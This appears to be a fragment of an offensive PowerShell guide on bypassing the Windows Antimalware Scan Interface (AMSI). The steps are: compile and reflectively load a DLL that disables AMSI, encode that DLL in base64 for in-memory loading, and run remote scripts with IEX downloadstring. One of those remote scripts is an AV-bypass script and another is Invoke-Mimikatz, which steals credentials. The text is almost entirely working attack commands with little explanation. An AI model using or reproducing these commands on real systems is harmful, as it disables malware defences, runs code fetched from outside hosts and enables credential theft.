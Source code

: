 To load it into Powershell we can use its native (.NET) API:
```
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll")) 
[BP.AMS]::Disable()
```

encode the entire DLL to base64 and create a script that will automatically reflect it to memory and execute it. To encode the dll to Then base64 I used this command.
```
$OriginalCommand = [Convert]::ToBase64String([IO.File]::ReadAllBytes("$pwd\\Source.dll"));$OriginalCommand
```

Loadoad it into memory

```
[Reflection.Assembly]::Load([Convert]::FromBase64String($OriginalCommand)) | Out-Null
```
### AMSI Bypassing  By using Third Party
```
IEX (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/aloksaurabh/OffenPowerSh/master/Bypass/Invoke-AlokS-AvBypass.ps1')
IEX (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
powershell get-item function:
```
```
$webreq = [System.Net.WebRequest]::Create('https://raw.githubusercontent.com/aloksaurabh/OffenPowerSh/master/Bypass/Invoke-AlokS-AvBypass.ps1')
$resp=$webreq.GetResponse()
$respstream=$resp.GetResponseStream()
$reader=[System.IO.StreamReader]::new($respstream)
$content=$reader.ReadToEnd()
IEX($content);Invoke-AlokS-AvBypass

```
